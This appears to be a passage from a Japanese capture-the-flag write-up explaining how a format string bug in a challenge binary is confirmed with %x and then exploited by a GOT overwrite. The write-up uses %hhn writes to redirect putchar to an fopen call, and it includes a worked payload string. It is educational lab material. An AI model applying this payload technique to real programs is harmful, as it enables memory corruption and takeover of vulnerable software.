 ### 攻撃方法の確認
注釈1, 2で`fgets`, `printf`を使用しているので`prinf format attack`が出来るか確認してみます。

```bash
[q4@localhost ans]$ echo AAAA,%x,%x,%x,%x,%x,%x,%x,%x|./q4
What's your name?
Hi, AAAA,400,bf58c0,8,14,776fc4,41414141,2c78252c,252c7825

Do you want the flag?
```

`AAAA`が`41414141`として表示されたことで、成功したことが分かりました。

次に3のputchar関数をダンプすると`0x80499e0`を参照していることが分かります。。

putcharの任意のアドレスに書き換えられれば嬉しいです(putcharでなくても良いはず)。

```bash
[q4@localhost ans]$ objdump -M intel -D q4|awk -v RS= '/^[[:xdigit:]]+ <putchar@plt>/'
08048474 <putchar@plt>:
 8048474:       ff 25 e0 99 04 08       jmp    DWORD PTR ds:0x80499e0 # 5
 804847a:       68 08 00 00 00          push   0x8
 804847f:       e9 d0 ff ff ff          jmp    8048454 <_init+0x30>
```

ということで5 `0x80499e0`を4の開始アドレス `0x8048691`に書き換えることができれば、putcharを呼ぶタイミングでfopenを呼ぶことができそうです。

つまり、次のように書き換えれば良いです。
 - 0x80499e0: 0x91
 - 0x80499e1: 0x86
 - 0x80499e2: 0x04
 - 0x80499e3: 0x08

### 実際の手法
実際にこのようにメモリの書き換えには`GOT(Global Offset Table) overwrite attack`を行います。GOT overwriteは次の書式で行います。

```bash
$ echo '[値]%[数値]$hhn' | ./q4
$ echo 'AAAA%6$hhn' | ./q4 # スタックの6番目にAAAA(=41414141)を格納し、41414141に現在のprint出力バイト数4が格納される
$ echo 'AAAABBBB%7$hhn' | ./q4 # スタックの6番目にAAAA(=41414141), 7番目にBBBB(=42424242)を格納し、42424242に現在のprint出力バイト数8が格納される
```

例えば、アドレス`0x80499e0`を`0x91`にするには

 - アドレス: `\xe0\x99\x04\x08`(リトルエンディアンを考慮した`0x80499e0`) に出力バイト数(今回の文脈では`0x91`)を指定すれば良い
 - 出力バイト数は`\xe0\x99\x04\x08`の書き込みの時点で4なので、`0x91`=`145`までに残り`141`必要
 - `%[数値]c%`で出力バイト数が稼げるので`%141c%`を追加してやる

つまり出力すべき文字列は`\xe0\x99\x04\x08%141c%6$hhn`となります。

実際には`アドレス1アドレス2アドレス3アドレス4値1値2値3値4`と入力する必要があるのでそれらを考慮してプログラムを組んでやると良いです(手計算でも解けます)。

### 手計算

プログラムの解説記事が多いようなので手計算してみます。
